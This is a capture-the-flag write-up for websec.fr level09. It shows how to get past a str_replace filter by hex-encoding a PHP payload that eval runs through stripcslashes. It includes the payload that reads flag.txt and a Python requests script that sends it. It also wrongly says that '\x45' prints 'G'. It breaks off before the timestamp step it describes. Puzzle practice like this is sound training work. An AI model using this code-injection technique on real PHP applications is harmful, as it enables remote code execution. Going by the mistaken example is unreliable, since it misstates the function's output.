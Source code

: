 `sha1` of UNIX time stamp is created and stored in `randVal` (extractable based on Burp).
Afterwards, write a file to `/tmp/$randVal`.

Replace all special characters and write in based on parameter `c`. 
Then, if the right file is retrieved, `eval` the `stripcslashes` of it.
This returns strings with the `backslashes` stripped off .
Recognises **hex and control chars**.

From the documentation of this function:

![](../../.gitbook/assets/Pasted%20image%2020240129180943.png)

I tested this with some hex characters:

```php
<?php

$var = stripcslashes('\x45');
echo $var;

?>
// prints out 'G'
```
The `str_replace` does not block `\` chars.
The answer is rather simple:
- Convert payload to hex
- Let `stripcslashes` convert my hex payload to string and pass it to `eval`.
- Calculate time stamp based on the UNIX time stamp returned. 

Firstly, I converted this payload to a hex:
```php
var_dump(file_get_contents('flag.txt'));
```

```python
import requests
import re

payload = '''var_dump(file_get_contents("flag.txt"));'''
hex_payload = ''.join([f'\\x{char.encode("utf-8").hex()}' for char in payload])
# print(hex_payload)

s = requests.Session()
url = 'https://websec.fr/level09/index.php'
params = {
	'c':hex_payload,
	'submit':'Submit'
}

r = s.get(url, params=params)
print("[+] Uploaded file")

```